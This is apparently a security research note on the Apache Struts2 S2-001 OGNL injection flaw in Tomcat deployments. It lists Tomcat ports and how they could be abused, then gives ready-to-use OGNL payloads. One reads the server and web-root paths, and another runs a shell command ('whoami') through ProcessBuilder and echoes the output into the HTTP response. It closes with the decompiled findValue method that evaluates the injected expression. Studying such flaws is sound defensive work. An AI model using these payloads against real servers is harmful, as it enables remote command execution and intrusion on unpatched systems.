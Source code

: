 tomcat opening port analysis:

8080 web server
8005 server-shutdown port (could be used to shutdown the tomcat server)
8009 AJP port (could be utilized to deploy the war file)

1099 JMX(java management extension port ,using the rmi or something else to control the MBean)

the payload to obtain the tomcat path:
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}



the payload to obtain the web path:

%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

the payload to execute the command:

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}


the code to execute OGNL in the struts2-1:

```java
 Object o = stack.findValue(var, asType)
```
 
 the definition of the findValue method：
 
 ```java
     public Object findValue(String expr, Class asType) {
        Object var4;
        try {
            Object value;
            if (expr == null) {
                value = null;
                return value;
            }

            if (this.overrides != null && this.overrides.containsKey(expr)) {
                expr = (String)this.overrides.get(expr);
            }

            value = OgnlUtil.getValue(expr, this.context, this.root, asType);
            if (value == null) {
                var4 = this.findInContext(expr);
                return var4;
            }

            var4 = value;
            return var4;
        } catch (OgnlException var9) {
            var4 = this.findInContext(expr);
        } catch (Exception var10) {
            this.logLookupFailure(expr, var10);
            var4 = this.findInContext(expr);
            return var4;
        } finally {
            OgnlContextState.clear(this.context);
        }

        return var4;
    }
 ```
 